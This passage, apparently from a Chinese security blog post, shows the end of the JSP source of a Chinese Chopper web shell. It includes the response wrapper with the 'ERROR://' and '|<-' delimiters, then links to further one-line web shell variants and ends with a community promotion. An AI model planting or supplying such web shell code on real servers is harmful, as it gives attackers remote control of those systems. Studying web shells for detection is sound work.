 ```
            QQ(cs, z1, z2, sb);
        }
    } catch (Exception e) {
        sb.append("ERROR" + ":// " + e.toString());
    }
    sb.append("|" + "<-");
    out.print(sb.toString());
%>
```

更多的关于一句话木马的变形，传送门——> [中国菜刀之写一句话木马变形](https://fly8wo.github.io/2018/08/17/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E4%B9%8B%E5%86%99%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%8F%98%E5%BD%A2/ "中国菜刀之写一句话木马变形")

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)